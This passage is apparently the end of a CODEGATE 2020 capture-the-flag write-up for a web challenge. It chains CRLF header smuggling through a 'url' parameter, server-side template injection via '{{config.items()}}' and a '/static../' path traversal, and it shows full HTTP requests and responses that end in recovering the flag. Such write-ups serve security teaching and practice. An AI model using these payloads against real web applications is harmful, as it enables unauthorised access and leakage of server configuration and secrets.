 It works!

### Template injection

After we learned to send request with arbitrary headers, we can retrive the flag.

With function `write_log(rip)` we could write arbitrary string from `X-Forwarded-For` to the ticket file.

#### Send

With the next request we wrote string `{{config.items()}}` to file:
```
POST /renderer/ HTTP/1.1
Host: 110.10.147.169
Content-Type: application/x-www-form-urlencoded
Content-Length: 97

url=http://127.0.0.1/renderer/admin HTTP/1.1%0d%0aX-Forwarded-For: {{config.items()}}%0d%0aTEST: 
```

#### Check

With the following request we check that injection on the it's place:
```
GET /static../tickets/74269dcedd704384f5eec8738f938ce9f6ca4640 HTTP/1.1
Host: 110.10.147.169

```

Result:
```
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Sun, 09 Feb 2020 13:43:08 GMT
Content-Type: application/octet-stream
Content-Length: 43
X-From: nginx
Accept-Ranges: bytes

Admin page accessed from {{config.items()}}
```

#### Read the FLAG

```
POST /renderer/ HTTP/1.1
Host: 110.10.147.169
Content-Type: application/x-www-form-urlencoded
Content-Length: 212

url=http://127.0.0.1/renderer/admin/ticket?ticket=74269dcedd704384f5eec8738f938ce9f6ca4640%20HTTP/1.1%0d%0aX-Forwarded-For:%20127.0.0.1%0d%0aUser-Agent:%20AdminBrowser/1.337%0d%0aHost:%20127.0.0.1%0d%0a%0d%0aLol:
```

Result:
```
...
FLAG&amp;#39;, &amp;#39;CODEGATE2020{CrLfMakesLocalGreatAgain}&amp;#39;
...
```